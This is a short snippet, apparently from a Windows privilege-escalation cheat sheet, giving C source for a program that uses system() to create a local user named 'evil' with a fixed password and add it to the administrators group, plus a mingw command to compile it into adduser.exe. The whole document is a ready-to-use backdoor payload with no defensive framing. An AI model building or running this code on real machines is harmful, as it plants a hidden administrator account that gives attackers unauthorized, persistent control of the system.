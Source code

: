 ## C program to run system commands

```c
#include <stdlib.h>
int main ()
{
    int i;

    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
    return 0;
}
```

--> Compile:

```
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```